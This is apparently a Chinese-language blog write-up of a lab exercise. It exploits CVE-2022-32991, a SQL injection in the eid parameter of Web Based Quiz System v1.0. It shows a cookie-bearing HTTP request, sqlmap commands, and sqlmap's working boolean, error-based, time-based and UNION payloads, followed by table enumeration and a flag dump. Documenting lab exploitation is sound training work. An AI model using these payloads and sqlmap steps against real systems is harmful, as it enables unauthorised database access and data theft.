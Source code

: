 ```yaml
---
title: "CVE-2022-32991"
date: 2024-07-25
tags: ["春秋云镜","CVE","SQLi"]
featured_image: "https://static.guyu.pro/yunjing.ichunqiu.com/CVE.webp"
draft: false
---
```


<https://nvd.nist.gov/vuln/detail/CVE-2022-32991>

## Web Based Quiz System v1.0 was discovered to contain a SQL injection vulnerability via the eid parameter at welcome.php

## 演示

环境: [春秋云镜 免费空间>CVE-2022-32991](https://yunjing.ichunqiu.com/cve/detail/750)

### 1.登录

![](https://static.guyu.pro/yunjing.ichunqiu.com/750/1.webp)

尝试注册用户

![](https://static.guyu.pro/yunjing.ichunqiu.com/750/2.webp)

### 2.验证

<http://eci-2ze31109wu70m3ze6qhp.cloudeci1.ichunqiu.com/welcome.php?q=quiz&step=2&eid=5b141f1e8399e'&n=1&t=10>

![](https://static.guyu.pro/yunjing.ichunqiu.com/750/3.webp)

### 3.利用

因为要在已登录状态注入，需要带上cookie

![](https://static.guyu.pro/yunjing.ichunqiu.com/750/4.webp)

保存为750，在url地址参数`eid=5b141f1e8399e`后添加`*`，让sqlmap指定位置注入

```http

GET /welcome.php?q=quiz&step=2&eid=5b141f1e8399e*&n=1&t=10 HTTP/1.1
Host: eci-2ze31109wu70m3ze6qhp.cloudeci1.ichunqiu.com
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/104.0.5112.81 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: Hm_lvt_2d0601bd28de7d49818249cf35d95943=1721788611,1721803958; PHPSESSID=cnam4bkgd0a0so8md1bqj6qbnn
Connection: close
```

使用sqlmap注入

```bash
$ sqlmap -r 750
URI parameter '#1*' is vulnerable. Do you want to keep testing the others (if any)? [y/N] y
sqlmap identified the following injection point(s) with a total of 46 HTTP(s) requests:
---
Parameter: #1* (URI)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: http://eci-2ze31109wu70m3ze6qhp.cloudeci1.ichunqiu.com/welcome.php?q=quiz&step=2&eid=5b141f1e8399e' AND 6069=6069 AND 'sWKv'='sWKv&n=1&t=10

    Type: error-based
    Title: MySQL >= 5.0 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: http://eci-2ze31109wu70m3ze6qhp.cloudeci1.ichunqiu.com/welcome.php?q=quiz&step=2&eid=5b141f1e8399e' OR (SELECT 8600 FROM(SELECT COUNT(*),CONCAT(0x7170767871,(SELECT (ELT(8600=8600,1))),0x716a627871,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a) AND 'OiEz'='OiEz&n=1&t=10

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: http://eci-2ze31109wu70m3ze6qhp.cloudeci1.ichunqiu.com/welcome.php?q=quiz&step=2&eid=5b141f1e8399e' AND (SELECT 1465 FROM (SELECT(SLEEP(5)))egvA) AND 'lzIQ'='lzIQ&n=1&t=10

    Type: UNION query
    Title: Generic UNION query (NULL) - 5 columns
    Payload: http://eci-2ze31109wu70m3ze6qhp.cloudeci1.ichunqiu.com/welcome.php?q=quiz&step=2&eid=5b141f1e8399e' UNION ALL SELECT NULL,NULL,CONCAT(0x7170767871,0x51654f6951587a78465a5169726258774f6a646d644379745761756a4547746d794d4f7256734c6b,0x716a627871),NULL,NULL-- -&n=1&t=10
---
[23:26:07] [INFO] the back-end DBMS is MySQL
web application technology: PHP 7.2.20
back-end DBMS: MySQL >= 5.0 (MariaDB fork)
$ sqlmap -r 750 --current-db
current database: 'ctf'
$ sqlmap -r 750 --tables -D ctf
[9 tables]
+-----------+
| admin     |
| history   |
| options   |
| rank      |
| user      |
| answer    |
| flag      |
| questions |
| quiz      |
+-----------+
$ sqlmap -r 750 --dump -D ctf -T flag
Database: ctf
Table: flag
[1 entry]
+--------------------------------------------+
| flag                                       |
+--------------------------------------------+
| flag{506b496e-2e73-473f-a206-ea9dba080930} |
+--------------------------------------------+
```

